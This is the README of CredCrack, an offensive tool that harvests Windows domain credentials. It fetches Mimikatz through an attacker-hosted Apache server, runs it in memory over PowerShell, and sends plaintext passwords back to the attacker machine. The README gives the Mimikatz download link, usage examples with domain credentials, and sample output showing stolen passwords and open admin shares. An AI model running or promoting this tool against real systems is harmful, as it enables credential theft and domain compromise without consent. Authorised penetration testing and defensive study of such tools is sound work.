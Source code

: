 # CredCrack

##Introduction
-----

CredCrack is a fast and stealthy credential harvester. Relying on an apache server on the attacker machine and PowerShell on the victim, CredCrack exfiltrates credentials in memory and in the clear without ever touching disk. Upon the exfiltration of credentials from all the supplied systems, CredCrack will compare the obtained credentials to the domain's domain administrator group to identify domain administrators obtained. CredCrack also comes with the ability to list and enumerate share access and yes, CredCrack is threaded!

CredCrack has been tested and runs with the tools found natively in Kali Linux. CredCrack solely relies on having PowerSploit's "Invoke-Mimikatz.ps1" under the /var/www directory. [Download Invoke-Mimikatz Here](https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1)

## Help
-----
```
CredCrack - A stealthy credential harvester by Jonathan Broche (@g0jhonny)

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  File containing IPs to harvest creds from. One IP per
                        line.
  -r RHOST, --rhost RHOST
                        Remote host IP to harvest creds from.
  -es, --ess            Examine share access on the remote IP(s)
  -l LHOST, --lhost LHOST
                        Local host IP to launch scans from.
  -t THREADS, --threads THREADS
                        Number of threads (default: 10)

Required:
  -d DOMAIN, --domain DOMAIN
                        Domain or Workstation
  -u USER, --user USER  Domain username
  -p PASSWD, --passwd PASSWD
                        Domain user password

Examples: 

./credcrack.py -d acme -u bob -p Password123 -f hosts --es
./credcrack.py -d acme -u bob -p Password123 -f hosts -l 192.168.1.102 -t 20
```

## Examples
-----

###Enumerating Share Access

```
root@kali:~# ./credcrack.py -r 192.168.1.100 -d acme -u bob -p Password123 --es

 ---------------------------------------------------------------------
  CredCrack v1.0 by Jonathan Broche (@g0jhonny)
 ---------------------------------------------------------------------
 
[*] Validating 192.168.1.102
[*] Validating 192.168.1.103
[*] Validating 192.168.1.100

 -----------------------------------------------------------------
 192.168.1.102 - Windows 7 Professional 7601 Service Pack 1 
 -----------------------------------------------------------------
 
 OPEN      \\192.168.1.102\ADMIN$ 
 OPEN      \\192.168.1.102\C$ 

 -----------------------------------------------------------------
 192.168.1.103 - Windows Vista (TM) Ultimate 6002 Service Pack 2 
 -----------------------------------------------------------------
 
 OPEN      \\192.168.1.103\ADMIN$ 
 OPEN      \\192.168.1.103\C$ 
 CLOSED    \\192.168.1.103\F$ 

 -----------------------------------------------------------------
 192.168.1.100 - Windows Server 2008 R2 Enterprise 7601 Service Pack 1 
 -----------------------------------------------------------------
 
 CLOSED    \\192.168.1.100\ADMIN$ 
 CLOSED    \\192.168.1.100\C$ 
 OPEN      \\192.168.1.100\NETLOGON 
 OPEN      \\192.168.1.100\SYSVOL 

[*] Done! Completed in 0.8s
```

###Harvesting credentials
-----

```
root@kali:~# ./credcrack.py -f hosts -d acme -u bob -p Password123 -l 192.168.1.100

 ---------------------------------------------------------------------
  CredCrack v1.0 by Jonathan Broche (@g0jhonny)
 ---------------------------------------------------------------------
 
[*] Setting up the stage
[*] Validating 192.168.1.102
[*] Validating 192.168.1.103
[*] Querying domain admin group from 192.168.1.102
[*] Harvesting credentials from 192.168.1.102
[*] Harvesting credentials from 192.168.1.103

                  The loot has arrived...
                         __________
                        /\____;;___\    
                       | /         /    
                       `. ())oo() .      
                        |\(%()*^^()^\       
                       %| |-%-------|       
                      % \ | %  ))   |       
                      %  \|%________|       

                
[*] Host: 192.168.1.102 Domain: ACME User: jsmith Password: Good0lj@ck
[*] Host: 192.168.1.103 Domain: ACME User: daguy Password: P@ssw0rd1!

     1 domain administrators found and highlighted in yellow above!

[*] Cleaning up
[*] Done! Loot may be found under /root/CCloot folder
[*] Completed in 11.3s
```

####Contact
Contact me at [@g0jhonny](https://twitter.com/g0jhonny) with any questions or features you'd like to see in the next update. For bugs submit an [issue](https://github.com/gojhonny/CredCrack/issues/new)!

####Credits
Special thanks to [@brav0hax](https://twitter.com/brav0hax) and [@altonjx](https://twitter.com/altonjx) for helping me test the script and [@mattifestation](https://twitter.com/mattifestation) for the awesome PowerSploit framework.
